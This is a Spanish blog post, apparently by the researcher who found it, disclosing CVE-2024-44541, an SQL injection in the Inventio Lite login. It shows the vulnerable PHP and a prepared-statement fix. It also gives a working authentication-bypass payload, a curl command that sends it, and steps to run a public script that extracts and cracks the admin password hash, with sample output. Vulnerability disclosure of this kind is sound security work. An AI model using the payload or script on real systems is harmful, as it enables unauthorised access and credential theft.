 +++
author = "Andrés Del Cerro"
title = "Mi primer CVE - CVE-2024-44541"
date = "2024-09-12"
description = ""
tags = [
    "Cybersecurity",
    "Penetration Testing",
    "Web Hacking",
    "CVE",
    "Informative",
    "CVE-2024-44541"
]

+++

# Introducción:

Recientemente, descubrí mi primer CVE, un hito importante en mi trayectoria en ciberseguridad. Aquí comparto brevemente el proceso.
¿Qué es un CVE?

CVE (Common Vulnerabilities and Exposures) es un sistema que identifica y categoriza vulnerabilidades de seguridad en software, permitiendo que se reporte y solucione de manera coordinada.
El Descubrimiento

---

# Código Vulnerable

El código vulnerable se encuentra en el archivo de login, donde la entrada del usuario no se escapa adecuadamente antes de ser incluida en la consulta SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();
    $sql = "select * from user where (email= \"".$user."\" or username= \"".$user."\") and password= \"".$pass."\" and is_active=1";
    $query = $con->query($sql);
    $found = false;
    $userid = null;
    while($r = $query->fetch_array()){
        $found = true;
        $userid = $r['id'];
    }
}
```
En esta implementación, el parámetro `username` se concatena directamente en la consulta SQL, permitiendo la inyección de código malicioso.

---

# Código Corregido
La vulnerabilidad se solucionó utilizando consultas **preparadas**, que permiten escapar adecuadamente las entradas del usuario y evitar la inyección SQL:
```php
if(!isset($_SESSION["user_id"])) {
    $user = $_POST['username'];
    $pass = sha1(md5($_POST['password']));

    $base = new Database();
    $con = $base->connect();

    // Preparar la consulta
    $stmt = $con->prepare("
        SELECT * FROM user 
        WHERE (email = ? OR username = ?) 
        AND password = ? 
        AND is_active = 1
    ");

    // Vincular los parámetros
    $stmt->bind_param("sss", $user, $user, $pass);

    // Ejecutar la consulta
    $stmt->execute();

    // Obtener los resultados
    $result = $stmt->get_result();
    $found = false;
    $userid = null;

    while($r = $result->fetch_assoc()){
        $found = true;
        $userid = $r['id'];
    }

    // Cerrar la declaración
    $stmt->close();
}
```

---

# Explotación
## Payload de Bypass de Autenticación
Un atacante puede explotar esta vulnerabilidad utilizando un payload como el siguiente para eludir la autenticación:
```text
username -> ") or 1=1-- -
password -> cualquier_valor
```

**Ejemplo de explotación con** `curl`:
```console
$ curl -X POST http://URL_INVENTIO_LITE/inventio-lite/?action=processlogin -d 'username=%22%29%20or%201%3D1--%20-&password=blablabla' -v && echo ""
```

# Script de Explotación Automática
He desarrollado un script en Python que automatiza la extracción del nombre de usuario y hash de la contraseña del administrador, y luego intenta descifrar la contraseña.

Para usar el script, clona el repositorio y ejecuta el script:

```console
$ git clone https://github.com/pointedsec/CVE-2024-44541
$ pip install -r requirements.txt
$ python3 sqli.py
```
**Ejemplo de salida del script**
```console
[*] Checking if target is vulnerable
[+] Target Vulnerable!
[*] Dumping Administrator username...
[◤] Extracting Username: -> POINTEDSEC@GMAIL.COM
[/] Extracting Admin Password Hash: Final Admin Hash: 90b9aa7e25f80cf4f64e990b78a9fc5ebd6cecad
[+] Password Decrypted! -> POINTEDSEC@GMAIL.COM:admin
```

---

# Impacto
La explotación de esta vulnerabilidad puede tener las siguientes consecuencias:
- **Confidencialidad**: Los atacantes pueden extraer toda la base de datos, accediendo a información sensible como credenciales de usuarios, correos electrónicos y otros datos personales.
- **Integridad**: Un atacante podría obtener acceso administrativo, permitiendo modificar, agregar o eliminar datos en la aplicación.

---
#Referencias

- [Inventio Lite GitHub Repository](https://github.com/evilnapsis/inventio-lite)
- [CVE-2024-44541 en MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-44541)
- [Alerta en INCIBE](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2024-44541)
- [Detalle en NVD](https://nvd.nist.gov/vuln/detail/CVE-2024-44541)

---

# Créditos
Este CVE fue descubierto y reportado por Andrés Del Cerro (alias: pointedsec, yo jejeje). Si necesitas más información, no dudes en contactarme a través de pointedpentesting@gmail.com.

---

# Conclusión
Después de validar la vulnerabilidad, procedí con su divulgación responsable, colaborando con el equipo de seguridad afectado para resolverla.

Descubrir y reportar un CVE ha sido una experiencia educativa, reforzando mi enfoque en la seguridad informática y motivándome a seguir contribuyendo a este campo.

Happy Hacking! 🚀